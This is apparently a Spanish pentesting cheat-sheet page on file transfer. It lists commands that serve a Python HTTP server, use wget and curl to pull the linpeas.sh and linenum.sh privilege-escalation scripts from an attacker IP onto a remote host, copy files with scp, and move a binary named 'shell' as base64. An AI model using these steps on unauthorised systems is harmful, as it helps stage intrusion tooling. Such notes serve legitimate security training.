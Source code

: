 ```yaml
---
{"-publish":true,"permalink":"/hacking/basico/transferencia-de-archivos/","PassFrontmatter":true}
---
```



---------------
#fileTransfer
 
-------

|                                                        |                                                                         |
| ------------------------------------------------------ | ----------------------------------------------------------------------- |
| **Transferencia de archivos**                          |                                                                         |
| `python3 -m http.server 8000`                          | Iniciar un servidor web local                                           |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfiera un archivo al servidor remoto con (requiere acceso SSH)`scp` |
| `base64 shell -w 0`                                    | Convertir un archivo a `base64`                                         |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convertir un archivo de nuevo a su origen`base64`                       |
| `md5sum shell`                                         |                                                                         |